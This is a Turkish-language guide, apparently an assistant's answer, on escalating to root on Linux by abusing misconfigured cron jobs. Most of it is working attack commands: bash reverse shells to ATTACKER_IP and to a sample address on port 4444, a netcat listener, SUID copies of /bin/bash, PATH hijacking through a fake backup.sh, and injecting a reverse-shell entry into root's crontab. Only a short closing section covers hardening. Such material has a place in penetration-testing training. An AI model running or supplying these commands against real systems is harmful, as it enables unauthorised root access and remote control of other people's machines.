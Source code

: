 Cron job’lar üzerinden privilege escalation (privilege escalation via cron jobs) işlemi, genellikle yanlış yapılandırılmış veya izinleri yanlış ayarlanmış cron işlerini hedef alarak gerçekleştirilir. Aşağıda detaylı bir rehber sunuyorum:

---

### **Cron Jobs Üzerinden Privilege Escalation Teknikleri**

#### 1. **Cron Jobs Nedir?**
Cron, Unix tabanlı işletim sistemlerinde görevlerin belirli zamanlarda otomatik olarak çalıştırılmasını sağlayan bir zamanlayıcıdır. Görevler genellikle `/etc/crontab`, `/etc/cron.d/` dizinindeki dosyalarda veya kullanıcıya özel olarak `crontab -e` ile tanımlanır.

---

#### 2. **Cron Job'ların Keşfi**
Cron job'ları analiz etmek için aşağıdaki komutları kullanabilirsiniz:

```bash
# Sistem geneli cron işleri
cat /etc/crontab

# Belirli kullanıcıya ait cron işleri
crontab -l -u <username>

# /etc/cron.d/ dizinindeki dosyalar
ls -l /etc/cron.d/

# Günlük, haftalık veya aylık cron işleri
ls -l /etc/cron.daily
ls -l /etc/cron.weekly
ls -l /etc/cron.monthly
```

---

#### 3. **Potansiyel Zayıflıkları Belirleme**
Cron job’larda dikkat edilmesi gereken zafiyetler şunlardır:

- **Yanlış İzinler:** Eğer bir cron job dosyası yazılabilir durumdaysa (`world-writable` veya `group-writable`), bu dosya değiştirilebilir ve saldırgan komutlar eklenebilir.
- **Yürütülen Komutlar:** Cron job’ın çalıştırdığı betik veya ikili dosyanın izinleri düzgün yapılandırılmamışsa, bu dosya değiştirilebilir.
- **PATH Değeri:** Cron job, `PATH` değişkeninde kontrolsüz bir yol içeriyorsa, kötü amaçlı bir dosya çalıştırılabilir.
- **Komut Enjeksiyonu:** Cron job içeriği kullanıcı girişlerini güvence altına almadan çalıştırıyorsa, komut enjeksiyonuna açık olabilir.
- **Zamanlanmış Görev Çıktıları:** Çıktılar hassas bilgiler sızdırıyor olabilir.

---

#### 4. **Privesc İçin Adım Adım Strateji**

##### **A. Yazılabilir Cron Job veya Script Bulma**
Cron job veya çalıştırdığı dosya yazılabilir ise:

1. **Yazılabilirliği kontrol edin:**
   ```bash
   ls -la /path/to/script
   ```
   veya
   ```bash
   find /etc/cron* -type f -writable 2>/dev/null
   ```

2. **Kötü amaçlı kod ekleyin:**
   Cron job tarafından çalıştırılan dosyayı aşağıdaki gibi değiştirin:
   ```bash
   echo "bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1" >> /path/to/script
   ```
   veya mevcut kodu root erişimiyle düzenleyin:
   ```bash
   echo "cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash" >> /path/to/script
   ```

##### **B. PATH Manipülasyonu ile Zafiyet Sömürüsü**
Cron job'ın `PATH` değişkenini doğru şekilde tanımlamadığını fark ederseniz:

1. **Örnek Cron Job:**
   ```bash
   * * * * * root backup.sh
   ```

2. **PATH Değeri Kontrolü:**
   Eğer `backup.sh` tam bir yol içermiyorsa ve `PATH` global bir değişken ise, kendi `backup.sh` dosyanızı oluşturup saldırı gerçekleştirebilirsiniz.

3. **Kendi `backup.sh` dosyanızı oluşturun:**
   ```bash
   echo "/bin/bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1" > /tmp/backup.sh
   chmod +x /tmp/backup.sh
   export PATH=/tmp:$PATH
   ```

##### **C. World-Writable Dizinde Kötü Amaçlı Dosya Yükleme**
1. Eğer cron job aşağıdaki gibi bir dosyayı yazılabilir bir dizinden çağırıyorsa:
   ```bash
   * * * * * root /tmp/cleanup.sh
   ```

2. **cleanup.sh dosyasını değiştirin:**
   ```bash
   echo "chmod +s /bin/bash" > /tmp/cleanup.sh
   chmod +x /tmp/cleanup.sh
   ```

3. Dosya değiştikten sonra cron job çalıştığında `/bin/bash` root yetkisine sahip olacaktır.

##### **D. Output ve Log Dosyalarına Komut Ekleme**
Eğer cron job çıktıları bir dosyaya yazıyorsa, log dosyasına komut ekleyebilirsiniz:

```bash
echo "*/5 * * * * root bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1" >> /var/spool/cron/root
```

---

#### 5. **Pratik Örnek: Yazılabilir Bir Cron Job ile Root Yetkisi**
##### Örnek Senaryo:
Cron job dosyası:
```bash
* * * * * root /home/user/backup.sh
```
`/home/user/backup.sh` dosyası şu şekilde yazılabilir:
```bash
-rw-rw-r-- 1 user user 47 Jan 1 12:00 /home/user/backup.sh
```

##### Sömürü:
1. **Backup scriptini düzenleyin:**
   ```bash
   echo "bash -i >& /dev/tcp/192.168.1.100/4444 0>&1" > /home/user/backup.sh
   chmod +x /home/user/backup.sh
   ```

2. **Reverse Shell Dinleyicisini Başlatın:**
   Kali Linux'ta:
   ```bash
   nc -lvnp 4444
   ```

3. Bir dakika içinde reverse shell root yetkisiyle size bağlanacaktır.

---

#### 6. **Korunma Yöntemleri**
1. Cron job’ların çalıştırdığı tüm dosyaların izinlerini sıkı tutun:
   ```bash
   chmod 700 /path/to/cronjob
   ```

2. PATH değişkenini açıkça tanımlayın:
   ```bash
   PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
   ```

3. Cron işlerini düzenli olarak inceleyin ve yalnızca güvenilir kullanıcıların erişmesine izin verin:
   ```bash
   chown root:root /etc/crontab
   chmod 600 /etc/crontab
   ```

4. Yazılabilir dizinlerde cron job çağrılmasına izin vermeyin.

5. Script içeriklerinde kullanıcı girdilerini sanitize edin.

---
